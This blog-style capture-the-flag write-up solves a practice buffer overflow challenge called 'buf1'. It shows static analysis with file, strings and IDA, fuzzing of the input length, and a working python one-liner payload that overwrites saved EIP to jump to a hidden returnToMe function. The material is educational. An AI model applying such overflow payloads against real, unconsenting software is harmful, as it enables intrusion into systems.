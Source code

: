buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf1](/static/files/buf1.bin). Let's see
what `file` command has to tell us about this challenge file:

```bash
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

So this binary, like it's [counterpart](/2014/buf0-challenge.html), is
also an x86 ELF with symbols included. Let's run `strings` as well over
this file:

```bash
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that
this indeed is very similar to the previous challenge. Before we execute
this file, let's do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting
function called `returnToMe` at location 0x08048404. Let's follow this
function and see what is it doing:

![image](/static/files/ida-returntome.png)

Let's figure out the size of the buffer to know how many bytes would be
needed to reach saved EIP:

```bash
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now
we can inject the buffer with dummy input followed by the address of
`returnToMe` function:

```bash
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

Done. But this time the program didn't exit cleanly. However, the
challenge was to get the `returnToMe` function called and it was done
successfully. But it's not always about completing challenges. Let's
take it as a learning opportunity and understand why, being so similar,
both challenges exited in different manner. To understand this and other
such minute intricacies of buffer overflows read my previous posts
starting with: [Gera's Warming Up on Stack #1 -
Solutions](/2012/geras-wuos-stack1-solutions.html).
